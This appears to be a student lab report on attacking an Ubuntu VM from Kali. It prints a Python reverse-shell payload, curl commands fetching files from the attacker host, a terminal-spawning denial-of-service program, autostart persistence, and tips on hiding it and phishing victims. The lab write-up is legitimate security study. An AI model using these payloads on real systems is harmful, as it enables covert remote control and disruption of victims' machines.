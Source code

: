 ## Huseinovic Elma - Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

### Kali Preparation
First of all, all the necessary files were created on Kali.  
First, the `reverseshell.sh` file, where the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) is in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.  
Then, a very simple C program, `dos.c`, was created, containing an while loop that continues to open several terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.  
Finally, the `dos.desktop` file was created:
```bash
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.  
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.  
Once the files were created, a [web file server](https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88) was also created on port 80, using the command
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

At this point, the only thing left to do is to listen on the chosen port, to do this it was used [netcat](https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/), with the command: `nc -lvp 4444 -n`

## Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali. At this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges. Finally the file is executed with `./reverseshell.sh`.  
Now, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.

![Reverse Shell](images/kali-ubuntu-rs.png)

## DoS and persistence

Using the reverse shell, now, it is easy to download the `dos.c` program and the `dos.desktop` file from the Kali web file server always using the `curl` command:  
`curl -O "http://10.0.2.2/demo/dos.c"`  
`curl -O "http://10.0.2.2/demo/dos.desktop"`  
now, the dos.c program is compiled using the `ggc -o dos dos.c` command, thus creating the executable. Before running it, however, persistence must be created.  
To do so, the `dos.desktop` file is moved to `.config/autostart`,is is used the `mv` command, which must, however, be executed with administrator privileges, therefore using `sudo`. This implies that the attacker must know the account password.  
Once `dos.desktop` is moved, the `dos` program is visible in Startup Application Preferences, which shows the programs that are run at the machine startup.  
So, every time the machine is accessed, countless terminal windows will be opened in a loop, making it unusable.

![Startup Application Preferences](images/application-startup.png)

![DoS](images/dos.png)

Furthermore, another interesting feature is that, trying to remove `dos` using the Startup Application Preferences application and restarting the machine, the program is still executed, this is because the `dos.desktop` file present in `.config/autostart` is not removed, and continues to put the program among the applications to be executed at startup.  
To stop this attack you might think of deleting the `dos` executable, but in case it is placed in a folder not easily reachable, this could not be done, especially if you do not know what is happening and if the machine starts to crash.  
Alternatively, you could think of deleting the `dos.desktop` file, but given that it is located in a directory that is hidden by default and given that the terminal is unusable, this could be difficult.

### References
1. The payload for the reverse shell was taken from: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/
2. The creation of the web file server was taken from: https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88
3. The usage of netcat to make the machine listen on a prefefined port was taken from: https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/


